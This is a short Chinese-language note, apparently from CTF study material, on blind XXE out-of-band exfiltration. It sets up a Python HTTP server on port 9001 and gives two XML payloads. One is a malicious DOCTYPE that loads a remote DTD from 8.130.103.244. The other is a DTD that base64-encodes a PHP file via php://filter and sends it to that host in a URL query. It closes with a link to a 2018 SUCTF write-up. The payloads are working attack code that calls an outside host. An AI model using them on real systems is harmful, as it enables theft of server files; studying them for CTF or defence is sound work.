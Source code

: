 用`python`起一个HTTP服务
```powershell
python -m http.server 9001 # 在9001端口开启http服务
```
服务器上准备的文件
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM "http://8.130.103.244:9001/send.xml">
%remote;
%all;
%send;
]>
```
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/show.php?action=view&filename=9.php">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://8.130.103.244:9001/?file=%file;'>">
```
外部实体不仅可以`file`协议读本地文件，也可以用`http`访问指定网址
### 例题
[2018 SUCTF Homework xxe外带数据~~ xxe进行ssrf_HyyMbb的博客-CSDN博客](https://blog.csdn.net/a3320315/article/details/104288865)
